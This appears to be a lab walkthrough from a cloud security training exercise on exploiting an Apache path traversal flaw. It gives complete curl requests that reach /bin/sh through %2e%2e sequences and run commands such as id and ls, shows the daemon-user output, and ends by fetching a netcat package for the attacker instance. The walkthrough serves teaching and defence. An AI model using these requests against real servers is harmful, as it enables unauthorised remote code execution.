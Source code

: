 # 1. command to try and exploit our web server:
Replace NODEIP and NODEPORT of Container port opened
# you are calling a "/bin/sh" command on the remote linux container where the Apache server is running.
```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; id"
```
This is the output of the id command. From this output we can understand that the remote Apache server is running with permissions of the "daemon" user.
```
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
Practically, this means that an intruder can run any commands on the remote Apache server without having any additional access like SSH.

You can try to elevate our permissions from the "daemon" to the "root" user, but this is not the purpose of this exercise. This simulation might look unrealistic, but when this exploit was detected for the first time, there were thousands of vulnerable versions of the Apache server running in the global Internet.

On the diagram you can see what is happening:

![image](https://github.com/Pruthvi360/linux_security/assets/107435692/ec1c3d94-588c-425a-a28b-8f89dd1eff69)

1. We run the "curl" command on the Attacker instance and connect to Apache
2. Apache runs the "id" command using "/bin/sh" shell
3. The "id" commands returns output to the Apache
4. Apache returns the output of the "id" command to the Attacker instance

**Our vulnerable Apache service is not exposed to the external world,
 we have built an internal-only configuration,
 so now we can investigate a bit further. You can experiment with different commands and try to explore the remote environment.**

# 2. Check the list of files in the root directory:
```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; ls -l /"
```

# 3. Check the hostname of the remote host:
```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; hostname"
```
# 4. Download it to the "attacker-instance" using the following set of commands to extract a binary file that we need:
```
gsutil cp \
gs://cloud-training/gsp1125/netcat-traditional_1.10-41.1_amd64.deb .
mkdir netcat-traditional
dpkg --extract netcat-traditional_1.10-41.1_amd64.deb netcat-traditional
```
